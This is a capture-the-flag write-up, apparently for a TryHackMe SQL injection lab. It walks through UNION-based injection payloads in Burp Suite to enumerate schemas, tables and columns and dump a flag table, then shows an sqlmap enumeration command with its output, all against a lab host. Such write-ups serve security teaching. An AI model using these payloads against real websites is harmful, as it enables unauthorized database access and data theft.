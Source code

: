 ### Using BurpSuite

There are 4 columns here.

{% code overflow="wrap" %}
```sql
# 1
# no of columns
1 UNION SELECT 1,2,3,4-- -

# 2
# DBs / Schema name.
-1 UNION ALL SELECT 1,database(),3,4-- -

sqhell_5

# All the DBs / Schemas.
-1 UNION ALL SELECT 1,group_concat(schema_name),3,4 from information_schema.schemata-- -

information_schema,sqhell_5

# 3
# tables in the "sqhell_5" DB.
-1 UNION ALL SELECT 1,group_concat(table_name),3,4 from information_schema.tables where table_schema="sqhell_5"-- -
# or
-1 UNION ALL SELECT 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()-- -

flag,posts,users

# 4
# columns in the "flag" table.
-1 UNION ALL SELECT 1,group_concat(column_name),3,4 from information_schema.columns where table_name="flag"-- -

id,flag

# 5
# dump data for the "flag" table.
-1 UNION ALL SELECT 1,group_concat(id,flag),3,4 FROM sqhell_5.flag-- -

1THM{FLAG5:B9C690D3B914F7038BA1FC65B3FDF3C8}
```
{% endcode %}

### Using Sqlmap

{% code overflow="wrap" %}
```bash
# 1
sqlmap -u "http://sqhell.thm/post?id=2" -p "id" --batch --dbs --dbms=mysql --threads 10

available databases [2]:
[*] information_schema
[*] sqhell_5

# can continue from here.....
```
{% endcode %}
